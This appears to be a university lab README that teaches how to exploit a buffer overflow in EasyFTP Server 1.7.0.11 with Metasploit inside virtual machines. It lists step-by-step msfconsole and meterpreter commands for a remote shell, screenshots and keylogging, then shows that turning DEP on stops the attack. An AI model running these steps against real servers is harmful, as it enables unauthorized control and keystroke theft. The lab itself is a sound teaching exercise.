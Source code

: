 # Taking Control of a Server with Metasploit

## Description
- Take control of a server on which EasyFtp Server 1.7.0.11 is installed and on service with [Metasploit](https://www.metasploit.com/)
  - There is a vulnerability of stack-based buffer overflow in [EasyFTP Server 1.7.0.11 and earlier](https://www.rapid7.com/db/modules/exploit/windows/ftp/easyftp_cwd_fixret/)
  - There is an [exploit](https://www.exploit-db.com/exploits/14402) integrated with [metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/ftp/easyftp_cwd_fixret.rb)
- There are [many software](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=buffer+overflow) contain the vulnerability of buffer overflow, but not all of them can be used to take control of a server

## Equipment
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Prerequisite!!!
- [Lab01](../lab01/README.md) must be done first if you use a new Windows VM
  - Especially Task 1 in lab01
    - DEP (Data Execution Protection) is turned off

## Tasks
On Windows server VM 🪟

0. Stop the FileZilla server
1. Install, configure and run EasyFTP
   1. Download [EasyFTP Server 1.7.0.11](../repo/easyftp-server-1.7.0.11-en.7z)
   2. unzip it with [7-zip](https://www.7-zip.org/). If you did not install 7-zip, download and install it first
   3. In the unzipped folder, run ftpconsole
   4. Stop the FTP service
   5. Configure the FTP service binding IP address to the Windows VM IP
   6. Restart EasyFTP Server. If the service won't start, delete the possibly installed broken version
   ```cmd
   :: open a command windows, run it as Administrator
   sc delete easyftpbasicsvr
   ```
   7. Add a user test on EasyFTP

Keep EasyFTP running on Windows VM 🪟.
On Kali Linux VM 🐧, in a command terminal

```bash
#  Make sure you can ftp to EasyFTP from Kali terminal
ftp Windows_VM_IP # as user test
```
2. Exploit the Windows target

```bash
# 2.1 Find a metasploit exploit
# ~$ - inside terminal msf> - inside metasploit
~$ msfconsole -q
msf> search easyftp

# 2.2 Select options and target
msf> use exploit/windows/ftp/easyftp_cwd_fixret
msf exploit(easyftp_cwd_fixret) > show options # find the required options

msf exploit(easyftp_cwd_fixret) > show targets

# 2.3 Exploit the target
msf exploit(easyftp_cwd_fixret) > set RHOST Windows_VM_IP
msf exploit(easyftp_cwd_fixret) > set TARGET "Number_of_target_Windows_Universal - v1.7.0.11"
msf exploit(easyftp_cwd_fixret) > exploit # enter meterpreter if succeeded

# 2.4 Loot the target
# 2.4.1 find the usage of meterpreter
meterpreter > help
# 2.4.2 get the system information of the victim
meterpreter > sysinfo
# 2.4.3 get an image of the target's desktop
meterpreter > screenshot
# 2.4.4 key logging
# Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
meterpreter > keyscan_start
# Shows the keystrokes captured so far
meterpreter > keyscan_dump	

# 2.4.5 Get a Windows Command Prompt on the target
meterpreter > shell
# Leaves the Windows Command Prompt
C:\Users\Administrator :$ exit
meterpreter > 

# 2.4.6 exit meterpreter
meterpreter > exit
msf >

# 2.4.7 exit metasploit
msf > exit
~ $
```

On Windows server VM 🪟

3. Hardening the target machine by turning on Data Execution Protection (DEP) 
4. Restart Windows server VM then restart EasyFTP

On Kali Linux VM 🐧

5. Launch the easyftp_cwd_fixret exploit again

On Windows server VM 🪟

6. If you see a box pops up saying "ftpbasicsvr.exe has stopped working" or EasyFTP crashed, then DEP has saved your server by stopping the attack!


# Reference
- [Project 3C: Metasploit v. EasyFTP](https://samsclass.info/123/proj14/p3cmet.htm)
- *Metasploit*
  - [METERPRETER BASIC COMMANDS](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
  - [Ultimate List of Meterpreter Commands](https://www.hackers-arise.com/ultimate-list-of-meterpreter-command)
  - [Metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)